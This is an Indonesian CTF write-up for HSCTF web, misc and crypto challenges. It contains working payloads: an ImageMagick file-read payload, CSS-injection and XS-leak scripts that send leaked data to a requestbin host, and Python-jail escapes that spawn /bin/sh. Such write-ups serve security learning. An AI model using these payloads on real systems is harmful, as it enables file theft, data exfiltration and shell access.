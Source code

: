 # WEB
## png-wizard-v2
Saat kita melihat di halaman http://web1.hsctf.com:8004/version tenyata versi dari Imagemagick:
```
Version: ImageMagick 6.9.10-23 Q16 x86_64 20190101 https://imagemagick.org
```
Untuk referensi vulnerabilitynya bisa dilihat disini:
https://imagetragick.com/

Kita  bisa mengirimkan malcious code untuk menyuruh image magic membuat 
```python
import requests
#URL = "http://localhost:8005"
URL = "http://web1.hsctf.com:8005"

MALCIOUS_PNG_PAYLOAD = """push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/app/flag.txt'
pop graphic-context"""
resp = requests.post(URL, files={"file": ("solve.png", MALCIOUS_PNG_PAYLOAD)})
with open("out.png", "wb") as f:
	f.write(resp.content)
```

## markdown-plus-plus
```html
...snip...
<form id="login-form" action="/login" method="POST">
	<input name="username" placeholder="{{ session.username or 'Username'}}" />
	<input type="submit" value="Login" />
</form>
...snip...
```
Dilihat dari `{{ session.username or 'Username'}}` kita dapat mencuri username dari admin.
Saya menggunakan cara yang semi automatis menggunakan script python dibawah ini, untuk membuat request ke `https://requestbin.io/ytti8kyt` jika huruf yang kita cocokkan ada yang benar.
```python
alphabet = 'abcdefghijklmnopqrstuvwxyz_{}'

known_admin = "flag"
malcious = '[c=purple;}\n'
for admin in alphabet:
    admin = known_admin + admin
    malcious += '''input[placeholder^="''' + admin + '''"]{background-image:url("https://requestbin.io/ytti8kyt?''' + admin + '''");}\n'''
malcious +=" test]"

print(malcious)
```

## hsgtf
Pada challenge kali ini kita dapat mengirimkan website apa saja ke admin, ini menyebabkan kita bisa menggunakan teknik cross-site leak.

Yang perlu diperhatikan disini adalah id saat kita memasukkan byte yang benar, dengan id saat kita memasukkan byte yanf salah memiliki id yang berbeda.Jadi disini kita akan menggunakan salah satu teknik di website [ini](https://xsleaks.dev/docs/attacks/id-attribute/) , yaitu dengan memanfaatkan fungsi `focus()` yang akan tidak fokus saat element suatu element itu ada:

Statis web untuk dibagikan ke admin:
```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
	</head>
	<body>
		<div id="foo" tabindex="0">tab</div>
		<script>
			let url = "http://web1.hsctf.com:8001/guess";
			let curr = "flag{";
			let chars = "abcdefghijklmnopqrstuvwxyz_{}";
			let found = false;

			let iframe = document.createElement("iframe");
			iframe.src = url;
			document.body.appendChild(iframe);
			document.getElementById("foo").focus();
			iframe.onload = solve;

			let sleep = (ms) => new Promise((r) => setTimeout(r, ms));

			document.getElementById("foo").onblur = function () {
				if (!found) {
					found = true;
				}
			};

			async function solve() {
				iframe.onload = undefined;
				while (true) {
					document.getElementById("foo").focus();
					for (let c of chars) {
						found = false;
						iframe.src = url + "?guess=" + curr + c;
						await sleep(100);
						iframe.src = url + "?guess=" + curr + c + "#continue";
						await sleep(400);
						if (found) {
							curr += c;
							break;
						}
					}
					console.log(curr);
					fetch("https://requestbin.io/xmt7d4xm", {
						method: "POST",
						body: curr,
					});
				}
			}
		</script>
	</body>
</html>
```
### Referensi
- https://xsleaks.dev/
- https://github.com/xsleaks/xsleaks/wiki/Browser-Side-Channels
- https://hackmd.io/@aplet123/r1TIzZbYq#HSGTF
# miscellaneous
## paas-v2
Kita bisa membuka file flag di forlder `./` dengan menggunakan function `license()` yang nantinya kita masukkan isi dari file './flag' ke `license()` dengan menggunakan fungsi `setattr()`.
payload ex:
```python
setattr(license,"_Printer__filenames",list(("flag",)))
```

Program python:
```python
from pwn import *

s = remote("paas-v2.hsctf.com", 1337)
s.sendlineafter(b"> ", b'setattr(license,input(),list((input(),)))')
s.sendline(b"_Printer__filenames")
s.sendline(b"flag")
s.sendlineafter(b"> ", b"license()")
print(s.recvuntil(b"> ").decode())
s.interactive()
```
### Another Solution
Dari artikel di bawah kita dapat kesimpulan bahwa juga fungsi `__builtins__` di hapus maka akan muncul lagi ketika eval di execute.
```
If the globals dictionary is present and does not contain a value for the key __builtins__, a reference to the dictionary of the built-in module builtins is inserted under that key before expression is parsed
```
> referensi: https://docs.python.org/3/library/functions.html#eval
```discord
Aplet123 — 06/11/2022
I think python just always has a default value for __builtins__ 
you'll notice if you del globals()["__builtins__"] it comes back
```
Denga skrip di bawah kita dapat mengubah variable `copyright`  dengan fungsi `setattr()` agar valuenya terkait dengan variable `globals()`, setelah itu kita dapat menghapus atribute `__builtins__` dari variable `copyright`, maka setelah pengulangan selanjutnya atribute `__builtins__` akan di insert dengan module `builtins`

program penyelesaian:
```python
from pwn import *

payload1 = '''setattr(copyright,input(),globals()),delattr(copyright,input())'''
payload2 = '''__dict__'''
payload3 = '''__builtins__'''
payload4 = '''breakpoint()'''

payload5 = '''import os;os.system("/bin/sh")'''

c = remote("paas-v2.hsctf.com", 1337)

c.recv(1000);c.recv(1000);

c.sendline(payload1)
c.sendline(payload2)
c.sendline(payload3)
c.sendline(payload4)
c.sendline(payload5)

c.interactive()
```
# cryptography
## OTP
```python
import random
from Crypto.Util.number import bytes_to_long, long_to_bytes

avgflag = int(10000000000 * 2.5)
tries = 10000000
flag = 444466166004822947723119817789495250410386698442581656332222628158680136313528100177866881816893557
print(avgflag-tries//2)
print(avgflag+tries//2)
for s in range(avgflag-tries//2,avgflag+tries//2):
    print(s, end= '\r')
    random.seed(s)

    l = 328

    k = random.getrandbits(l)
    pt = flag ^ k # super secure encryption
    if long_to_bytes(pt).isascii():
        print(long_to_bytes(pt))
```
